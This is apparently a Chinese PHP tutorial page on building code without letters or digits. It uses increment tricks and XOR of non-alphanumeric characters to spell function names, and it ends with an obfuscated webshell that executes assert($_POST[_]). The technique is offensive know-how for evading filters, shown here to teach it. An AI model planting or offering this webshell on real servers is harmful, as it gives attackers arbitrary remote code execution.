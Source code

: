 

##### 2、利用PHP未定义变量默认值为null,null=false=0,所以利用自增操作得到数字

```php
<?php
$_++;
print($_);
?>
```



### 用字符串自增,获取字符

php文档(http://php.net/manual/zh/language.operators.increment.php)
在处理字符变量的算数运算时，PHP 沿袭了 Perl 的习惯，而非 C 的。例如，在 Perl 中 $a = ‘Z’; $a++; 将把 $a 变成’AA’，而在 C 中，a = ‘Z’; a++; 将把 a 变成 ‘[’（‘Z’ 的 ASCII 值是 90，’[’ 的 ASCII 值是 91）。注意字符变量只能递增，不能递减，并且只支持纯字母（a-z 和 A-Z）。递增／递减其他字符变量则无效，原字符串没有变化。

也就是说，`'a'++ => 'b'`，`'b'++ => 'c'`… 所以，我们只要拿到一个变量值为`a`，通过自增操作即可获得a-z中所有字符。

在PHP中如果强制连接数组和字符串的话，数组将被转换成字符串，其值为`Array`,再取这个字符串的第一个字母，就可以获得`A`了。

```php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
```



### webshell

#### php5和7的差异。

* php5中assert是一个函数，我们可以通过`$f='assert';$f(...);`这样的方法来动态执行任意代码。

- 但php7中，assert不再是函数，变成了一个语言结构（类似eval），不能再作为函数名动态执行代码，所以利用起来稍微复杂一点。但也无需过于担心，比如我们利用file_put_contents函数，同样可以用来getshell。

  

#### 不用数字和字母的 shell

核心思路:将非字母、数字的字符经过各种变换，最后能构造出a-z中任意一个字符。然后再利用PHP允许动态函数执行的特点，拼接处一个函数名，如assert，然后动态执行之即可。



#### 非字母、数字的字符异或出字母

* 不可打印字符，用 url 编码表示

```php
<?php
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_='assert';
$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__='_POST';
$___=$$__;
$_($___[_]); // assert($_POST[_]);
```
